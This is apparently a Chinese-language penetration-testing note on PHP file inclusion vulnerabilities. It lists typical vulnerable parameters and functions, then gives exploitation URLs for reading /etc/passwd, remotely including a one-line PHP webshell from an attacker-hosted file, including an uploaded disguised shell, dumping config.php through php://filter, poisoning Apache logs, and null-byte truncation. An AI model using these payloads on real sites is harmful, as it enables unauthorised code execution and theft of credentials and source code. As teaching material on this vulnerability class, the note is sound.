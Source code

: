 ```yaml
---
# 这是页面的图标
icon: script
# 这是文章的标题
title: 文件包含
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-20
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 文件包含
comment: false
---
```


## 典型特征
```URL
?page=a.php
?home=b.html
?file=content
?name=a.php
```
## php常见导致文件包含的函数：
```php
include()
include_once()
require()
require_once()
fopen()
readfile()
```
## 利用
1. 读取文件
```url
http://www.xxser.com/index.php?page=/etc/passwd
```
2. 远程包含shell
allow_url_fopen=on 情况下
```url
http://www.example.com/index.php?page=http://www.attacker.com/echo.txt
其中echo.txt内容为:<?php eval($_POST[xxser]);?>
```
3. 本地包含配合文件上传漏洞包含shell
```url
上传一句话木马文件后，通过文件包含利用，非php扩展文件被包含后也会被当作php解析
http://www.example.com/index.php?page=./uploadfile/xxx.jpg
```
4. PHP协议
  - php://filter  
  一种元封装器，用于数据流打开时的筛选过滤应用
  ```url
  http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
  ```
  - php://input  
  php://input是个可以访问请求的原始数据的只读流,可以接收post请求，将请求作为PHP代码的输入传递给目标变量
  ```url
  http://www.example.com/index.php?page=php://input
  ```
5. 包含日志文件
```url
先访问：http://www.example.com/<?php phpinfo();?>生成日志
再访问：http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log
关键在于确定apache路径
```
6. 截断包含  
magic_quotes_gpc=off 情况下
```url
http://www.example.com/index.php?page=1.jpg%00
```
